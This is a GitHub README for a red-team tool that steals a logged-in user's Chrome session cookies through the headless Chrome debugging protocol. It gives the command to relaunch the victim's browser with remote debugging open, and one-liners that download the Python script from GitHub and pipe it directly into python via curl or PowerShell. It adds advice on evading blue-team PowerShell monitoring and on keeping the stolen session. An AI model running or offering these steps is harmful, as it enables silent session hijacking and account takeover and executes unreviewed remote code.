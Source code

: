 # chrome_snatcher
Chrome (headless) cookie snatcher

For use in Red Team ops where you have a shell on a user's machine and want to (silently) dump their cookies, without needing to compromise their keychain on OSX.  

(Ab)uses Chrome Debugger Protocol (CDP) in headless mode by stealing all of the cookies.  Start chrome in headless mode, start chrome-snatchin', and obtain all the sessions.

***Also, additional caveat:  Chrome Debugger Protocol is verrry cantankerous (read: buggy), so it may not cooperate immediately, but luckily it's not noisy to start and stop it.  Be forewarned: if you run chrome in headless mode and the user tries to OPEN Chrome, it will bug out and not open, which will likely lead them to restart their machine, log out, etc, which may cost you an active session.  Caveat emptor.

No additional privilege needed to run it beyond what the user already has.

Usage:

`/path/to/user's/chrome --headless=new --remote-debugging-port=9222 --remote-allow-origins="*" --restore-session --no-sandbox --disable-gpu --profile-directory="Profile <x>" (In my case it wasn't 0 or 1, so you might have to do some additional recon/trial/error here)`

OSX/Linux:
`curl -s https://raw.githubusercontent.com/pwna5aurus/chrome_snatcher/main/chrome_snatcher.py | python3`

Windows (potentially risky method for deployment as Blue/IR usually watches POSH like a hawk, probably better to use your C2):
`Invoke-WebRequest -Uri "https://raw.githubusercontent.com/pwna5aurus/chrome_snatcher/main/chrome_snatcher.py" -UseBasicParsing | Select-Object -ExpandProperty Content | python -`

Enjoy!
